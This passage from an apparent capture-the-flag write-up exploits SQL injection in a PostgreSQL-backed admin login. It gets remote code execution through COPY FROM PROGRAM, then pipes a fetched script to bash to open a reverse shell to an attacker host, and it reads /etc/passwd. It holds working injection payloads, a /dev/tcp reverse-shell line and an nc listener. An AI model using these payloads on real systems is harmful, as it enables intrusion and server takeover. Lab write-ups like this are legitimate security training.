 ```bash
❯ curl -X POST "https://admin.megalogistic.com" -d "username='; insert into users(username,password) values('k0rriban',md5('1234')); -- -&password=1234" -k -s
```
We can see no error, and if we try to connect as k0rriban:
```bash
❯ curl -X POST "https://admin.megalogistic.com" -d "username=k0rriban&password=1234" -k -s | grep "Login failed"
```
Let's test the capacity of creating tables:
```bash
❯ curl -X POST "https://admin.megalogistic.com" -d "username='; CREATE TABLE test_cmd_exec(cmd_output text); -- -&password=1234" -k -s
❯ curl -X POST "https://admin.megalogistic.com" -d "username='; CREATE TABLE test_cmd_exec(cmd_output text); -- -&password=1234" -k -s
<br />
<b>Warning</b>:  pg_query(): Query failed: ERROR:  relation &quot;test_cmd_exec&quot; already exists in <b>/var/www/admin/index.php</b> on line <b>10</b><br />
```
So we can create tables.

#### RCE on PostgreSQL
With the capacity of table creation, we can exploit the RCE explained at [PostgreSQL RCE](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection#rce):
```bash
❯ curl -X POST "https://admin.megalogistic.com" -d "username='; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'curl 10.10.16.2:4444/test'; select 'admin' -- -&password=1234" -k -s
```
This way, if we don't receive any output, it means the command was executed successfully and `select 'admin'`, which bypasses the login, would make the request successful. If the query fails before that select, then an error will be displayed. Let's allocated a python server on port 4444 and try that payload:
```bash
# My machine before connection
❯ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
# Payload execution
❯ curl -X POST "https://admin.megalogistic.com" -d "username='; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'curl 10.10.16.2:4444/test'; select 'admin' -- -&password=1234" -k -s
# My machine after connection
10.10.10.236 - - [05/Jun/2022 15:22:33] code 404, message File not found
10.10.10.236 - - [05/Jun/2022 15:22:33] "GET /test HTTP/1.1" 404 -
```
So we do have RCE through postgresql. Now we can attempt to obtain a reverse shell using curl:
```bash
❯ echo "bash -i >& /dev/tcp/10.10.16.2/3333 0>&1" > Exploits/reverse_tcp
❯ curl -X POST "https://admin.megalogistic.com" -d "username='; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'curl 10.10.16.2:4444/Exploits/reverse_tcp | bash'; select 'admin' -- -&password=1234" -k -s
# After running the payload, the listening terminal is
❯ nc -nlvp 3333
Connection from 10.10.10.236:52436
bash: cannot set terminal process group (2377): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ whoami
whoami
postgres
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ cat /etc/passwd | grep "sh$"
<ib/postgresql/11/main$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
postgres:x:102:104:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```
As we can see, there is no other user with a shell different than root. If we access to `/var/lib/postgresql/` we can see the `user.txt` flag.